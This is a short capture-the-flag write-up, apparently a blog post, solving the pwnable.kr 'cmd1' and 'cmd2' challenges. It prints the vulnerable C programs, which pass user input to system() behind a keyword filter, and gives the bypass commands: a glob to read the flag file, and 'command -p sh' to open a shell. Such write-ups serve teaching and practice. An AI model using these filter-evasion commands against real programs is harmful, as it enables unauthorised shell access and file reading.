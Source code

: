 ```yaml
---
layout: post
title: "cmd challenges in Pwnable.kr"
date: 2019-07-27 +0100
categories: ctf
---
```

In this post we solve a few easy challenges on pwnable.kr called `cmd1` and `cmd2`


## cmd1 and cmd2       
                           
These two challenges required us to circumvent a cleared `PATH` environment variable.          
                                                    
### cmd1                         
                                     
In the first challenge, the program has a small filter, that doesn't include `/`
                          
{% highlight c %}                                    
#include <stdio.h>                    
#include <string.h>                                      
                                     
int filter(char* cmd){                                              
        int r=0;                   
        r += strstr(cmd, "flag")!=0; 
        r += strstr(cmd, "sh")!=0;  
        r += strstr(cmd, "tmp")!=0;                                                                         
        return r;  
}          
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );                                
        return 0;              
}                              
{% endhighlight %}
                             
Omitting this filter is rather easy with sh's `*` expansion and a full path to the executeable we wish to utilize.
                                     
`./cmd1 "/bin/cat /home/cmd1/fl*"`
           
        
### cmd2

In the second challenge, the program has a larger filter, and clears all environment variables. 

{% highlight c %}                                    
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
{% endhighlight %}

This makes us unable to use the solution from the first challenge, as it includes `/` for the program name.

However, sh has a built-in, called `command`, see the [bash man page](http://manpages.ubuntu.com/manpages/xenial/man7/bash-builtins.7.html?source=post_page---------------------------), this takes a parameter `-p` which uses a default setting for the `PATH` variable. Now we can execute `./cmd2 "command -p sh"` and pop a shell, from here we can `cat` the flag.

